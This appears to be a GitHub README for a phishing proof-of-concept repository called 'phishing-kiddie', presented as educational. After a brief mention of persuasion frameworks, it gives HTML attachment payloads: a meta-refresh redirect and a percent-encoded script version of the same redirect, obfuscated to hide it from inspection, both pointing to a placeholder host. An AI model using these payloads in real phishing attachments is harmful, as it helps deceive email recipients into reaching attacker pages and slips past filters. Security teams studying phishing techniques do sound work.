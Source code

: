 
> Disclaimer: This project is for Educational Purpose Only

# phishing-kiddie
This repository stores the proof-of-concept of Phishing attacks.

# Theory
Fear, Uncertainty, Doubt (FUB)
Attention, Interest, Desire, and Action (AIDA)

## Attachment
### HTML
Redirection
```html
<meta http-equiv="refresh" content="1;url=http://www.example.com">
```

```html
<script language="javascript">document.write(unescape('%3c%6d%65%74%61%20%68%74%74%70%2d%65%71%75%69%76%3d%22%72%65%66%72%65%73%68%22%20%63%6f%6e%74%65%6e%74%3d%22%31%3b%75%72%6c%3d%68%74%74%70%3a%2f%2f%77%77%77%2e%65%78%61%6d%70%6c%65%2e%63%6f%6d%22%3e'));</script>
```
